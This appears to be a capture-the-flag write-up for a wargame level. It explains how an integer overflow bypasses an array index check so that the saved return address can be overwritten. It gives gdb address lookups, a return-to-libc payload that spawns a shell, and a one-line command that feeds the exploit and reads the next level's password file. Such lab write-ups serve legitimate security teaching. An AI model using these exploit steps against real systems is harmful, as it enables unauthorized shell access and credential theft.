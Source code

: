 # Overflow bypassing array indexes

see source.c

## Analysis

By analysing the binary with noticed something strange on the check for the index of the array:
```
(i - (((i * 0xaaaaaaab) >> 1) * 3)) == 0
```
With a bit of research we discovered that it's a checker for multiple.
Then for storing values, the program is using: `i << 2` without any further check. That mean we can rewrite eip if we aim high enough. Unfortunately we noticed that the right value to rewrite eip was `114` and it doesn't pass the previous check. So we have to find a high enough value that could pass the bit shift and isn't a multiple of 114 (and 3).

We manage to found that value by searching for values with python:
```
>>> 0b01000000000000000000000001110010
1073741938
```
`1073741938` is perfect ! Then we just have to put a return-to-libc at eip on `system`, and put `/bin/sh` on ebp.
Find right adresses:
```
(gdb) print system
0xf7e6aed0
(gdb) find 0xf7e6aed0, +999999999, "/bin/sh"
0xf7f897ec
```

## Exploit

```
[...]
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

```
(echo "store"; echo "4159090384"; echo "1073741938"; echo "store"; echo "4160264172"; echo "116"; echo "quit"; sleep 0.2; echo "cat /home/users/level08/.pass") | ./level07
```
